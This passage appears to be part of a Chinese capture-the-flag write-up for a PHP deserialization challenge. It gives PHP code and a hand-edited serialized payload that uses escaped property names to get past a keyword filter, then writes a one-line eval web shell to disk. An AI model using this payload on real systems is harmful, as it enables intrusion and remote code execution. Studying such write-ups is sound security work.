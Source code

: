 ![](./images/1698935583-image.png)

![](./images/1698935594-image.png)

上面可以看到能够进行命令执行的命令都被ban了，用不了

这里可以使用php的file\_put\_content函数，写入一个php木马

```
<?php
class syc{
    public $lover="file_put_contents('shell.php', '<?php eval(\$_POST[a])?>');";
    public function __destruct()
    {
        eval($this->lover);
    }
}
$a=new syc();
$s=serialize(array($a,0));
echo serialize(array($a,0));
echo PHP_EOL;
preg_replace('lover','\\6cover',$s);
echo $s;

#再自己修改一下
#a:2:{i:0;O:3:"syc":1:{S:5:"\6cover";s:58:"file_put_contents('shell.php', '<?php eval($_POST[a])?>');";}i:0;i:0;}
```
